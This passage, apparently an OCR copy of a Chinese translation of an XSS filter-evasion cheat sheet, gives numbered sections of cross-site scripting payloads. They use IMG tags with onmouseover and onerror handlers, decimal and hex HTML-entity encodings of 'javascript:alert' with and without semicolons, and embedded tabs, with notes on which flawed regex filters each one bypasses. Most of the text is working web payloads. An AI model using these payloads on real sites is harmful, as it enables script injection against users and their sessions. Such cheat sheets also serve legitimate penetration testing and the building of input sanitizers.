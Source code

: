 > <IMG SRC=# onmouseover=”alert(‘xxs’)”>

### 2.14.    使用默认为空的SRC属性

> <IMG SRC= onmouseover=”alert(‘xxs’)”>

### 2.15.    使用不含SRC属性

> <IMG onmouseover=”alert(‘xxs’)”>

### 2.16.    通过error事件触发alert

> <IMG SRC=/ onerror=”alert(String.fromCharCode(88,83,83))”></img>

### 2.17.    对IMG标签中onerror属性进行编码

> <img src=x onerror=”&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041″>

### 2.18.    十进制HTML字符实体编码

所有在IMG标签里直接使用javascript:形式的XSS示例无法在Firefox或Netscape8.1以上浏览器（使用Gecko渲染引擎）运行。

> <IMG SRC=&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;
>
> &#39;&#88;&#83;&#83;&#39;&#41;>

### 2.19.    不带分号的十进制HTML字符实体编码

这对于绕过对“&#XX;”形式的XSS过滤非常有用，因为大多数人不知道最长可使用7位数字。这同样对例如$tmp_string =~s/.*\&#(\d+);.*/$1/;形式的过滤器有效，这种过滤器是错误的认为HTML字符实体编码需要用分号结尾（无意中发现的）：

> <IMG SRC=&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&
>
> \#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041>

### 2.20.    不带分号的十六进制HTML字符实体编码

这是有效绕过例如$tmp_string =~ s/.*\&#(\d+);.*/$1/;过滤器的方法。这种过滤器错误的认为#号后会跟着数字（十六进制HTML字符实体编码并非如此）

> <IMG SRC=&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29>

### 2.21.    内嵌TAB

使用TAB来分开XSS攻击代码：

> <IMG SRC=”jav ascript:alert(‘XSS’);”>

### 2.22.    内嵌编码后TAB
